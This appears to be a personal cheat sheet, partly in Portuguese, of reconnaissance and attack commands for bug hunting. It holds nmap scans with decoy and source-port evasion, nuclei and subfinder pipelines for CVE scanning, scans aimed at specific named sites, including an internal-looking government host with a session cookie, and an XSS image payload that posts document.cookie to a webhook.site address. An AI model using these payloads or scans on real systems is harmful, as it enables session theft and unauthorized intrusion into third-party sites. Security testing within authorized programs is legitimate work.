 "Vulnerability Disclosure Program" "VDP" site:uk -bughunt -hackerone -intigriti -bugcrowd -yeswehack

https://dorks.faisalahmed.me/


nmap -sU -p 53 --script=dns-nsid 10.129.2.48 -> ver~soa dns do servidor alvo pode ser vuln de exposição de dados sensiveis etc


subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/2025/CVE-2025-0133.yaml


nmap 10.129.4.84 -sV -D RND:2 -Pn -sU -sS -g53 --max-retries 2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-

nuclei -t cves/ -u http://alvo.com -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

extensão dotgit, wappalyzer, shodan, DNSlytics

nuclei -u https://cursos.rizomasur.org -tags moodle

`
<img src="x" onerror="fetch('https://webhook.site/de5d7883-a25c-41cd-beb6-113d2b50a605',{method:'POST',body:'cookie='+document.cookie})">
`

gobuster dir -u https://app.homolog.itamaraty.local/GestaoFinanceira/Pages/Dashboard/   -w /usr/share/wordlists/dirb/common.txt   -t 50   -H 'Host: app.homolog.itamaraty.local'   -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc; outro_cookie=valor'   -k -x html,php,js,aspx,bat,txt,zip
